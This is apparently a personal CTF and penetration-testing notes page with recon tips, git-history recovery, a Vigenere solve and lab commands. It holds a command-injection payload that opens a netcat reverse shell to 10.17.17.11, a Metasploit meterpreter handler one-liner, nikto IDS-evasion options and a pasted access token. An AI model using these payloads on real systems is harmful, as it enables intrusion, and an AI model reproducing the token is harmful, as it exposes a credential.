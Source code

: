 # Miscellaneous
always click around and make sure you check ALL of the functionality of a website or a service for that matter.

use `git log` to see previous commits, `git show <commit>` to see the edited contents and `git checkout <commit>` to see the files(Very important) or `git reset --hard <commit>` to restore files.

`dnsrecon` is a good idea when checking for certificates and domain names.

You should ALWAYS try using the app as a user if you have the chance to. Learning how it functions will let you figure out how to manipulate it.

to get only uniqe letters(no copies) use the following:

```text-plain
crunch 6 6 -p oqfxvg > wordlist2.txt
```

```text-plain
apt list --upgradeable
```

`openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

```text-plain
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
```

The arguments in the above command are:

*   `req` indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
*   `-x509` specifies that we want an X.509 certificate
*   `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as `-newkey rsa:2048`.)
*   `-days 365` shows that the validity of our certificate will be one year
*   `-subj` sets data, such as organization and country, via the command-line.
*   `-nodes` simplifies our command and does not encrypt the private key
*   `-keyout PRIVATE_KEY` specifies the filename where we want to save our private key
*   `-out CERTIFICATE` specifies the filename to which we want to write the certificate request

`cat thm-reverse.key thm-reverse.crt > thm-reverse.pem`

IDS ACESS TOKEN:

`Hr8sZjlmqahSJCGp_x9lljJKNRpct_ZUqcG_sv-KeZQAJsi2cKYCBhAtBuOFMtb4QO88rfjQdJrOZ5JuMdlCakrsK0zCdwmGpDdKOaqOZOBsSgGj-aW2uaNTYL39ou764Vv0OWmvjGEkLPwYIjPEzm3R4GNWhDkesfRWkobS3-k`

you can create a reverse shell wit ping by 

```text-x-csrc
Ping(ip: "; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.17.11 1234 >/tmp/f")

\xf0\x18\xd2\xbf\x86\xd8\x82\xdc\xd6\xce\x81\xde\xf6\x14c\xd9\xda\xe9\xa2\x89\xb7\xda\xc8\x1d
```

if you hit CTRL-ALT and an FC you can see the linux terminals, _generally_ linux distors _allocate_ 1 to 7 of them, but there could be more, _usually_ 1 or 2 is your GUI, and the rest are text logins (Old distros, 7 was the gui); or if you run `systemctl isolate multi-user` (I think it's hyphenated) it'll move it back to terminal mode without a gui (and `systemctl isolate graphical` to get back) (`telinit 3` and `telinit 5` before systemctl was common)

when uploading files in smb, make sure the file is in your current dir so that a simple `put <file>` works, no absolute path

For uncompyling python code, use `uncompyle2` or `uncompyle6`

we could also go further and use a selection of the IDS evasion modes available with `nikto` these are set with the `-e` flag:

`nikto -p3000 -T 1 2 3 -useragent <AGENT_HERE> -e 1 7 -h 10.10.16.6`

You will notice the numbering is in the same position. So, this is either a vigenere cipher or a Ceaser cipher.

To obtain the key, simply do a reverse key search based on the vigenere table. 

The left letter bar represents plaintext, the upper letter bar represents key (either one, the table is symmetrical) and the inner table is ciphertext. Let’s take the second letter and compare it.

```text-plain
CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo (Encrypted)
ANDVOWLDLAS5Q8OQZ2tu           (Plaintext)
```

```text-plain
B (Encrypt)
N (Plaintext)
O (Key)
```

![vigenere table](Miscellaneous/14.png)

Git
---

use githack.py to get source code of files. `/.git/logs/HEAD` has the info on the commits and previous history, to look into a specific object, go to `/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f` (after the first two letters of the object, there's a sub-directory). We need a dummy git folder locally to read the file.

```text-plain
git init
```

create folder `79` in `/.git/objects/` and place the (two first character missing) file in that folder, then use 

```text-plain
git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
```

to cat the file